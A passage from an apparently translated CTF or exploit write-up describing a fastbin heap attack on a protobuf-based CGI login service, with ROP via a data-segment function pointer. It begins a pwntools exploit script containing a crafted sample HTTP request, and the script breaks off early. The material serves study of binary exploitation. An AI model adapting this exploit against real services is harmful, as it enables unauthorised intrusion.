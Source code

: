 [![](assets/1706958480-c1dcd9378056d4658ea815805afdd80a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240130151309-05afcbcc-bf3f-1.png)

`fastbin attack` can be constructed in the above way. After that, you can use `fastbin attack` to modify the function pointer of the data segment, jump to ROP and finally complete the exploit (PS: The interesting point here is that if there is no function pointer stored in the data segment by protobuf, when Full RELRO is turned on, this vulnerability cannot be exploited.)

The complete exploit script is as follows:

```bash
#!/usr/bin/env python3
from pwn import *
context.arch = "amd64"
context.log_level = "debug"

# POST /cgi-bin/login.cgi HTTP/1.1
# Accept: application/json, */*
# Accept-Encoding: gzip, deflate
# Connection: keep-alive
# Content-Length: 171
# Content-Type: application/json
# Host: 192.168.64.135:8080
# User-Agent: HTTPie/1.0.3
# 
# {"data": "BICWCZDNNFXBEK3IOR2HA4Z2F4XXO53XFZ4W65LUOVRGKLTDN5WS653BORRWQP3WHUWVC4LQIV3E4MSYMQ4BQAQ", "timestamp": 61866, "data": "aaaa\u" aaaaaaaabaaaaaaacaaaaaaadaaaaaaa"}

blacklist_dict = {
    b"\b": b"\\b",
    b"\f": b"\\f",
    b"\n": b"\\n",
    b"\r": b"\\r",
    b"\t": b"\\t",
```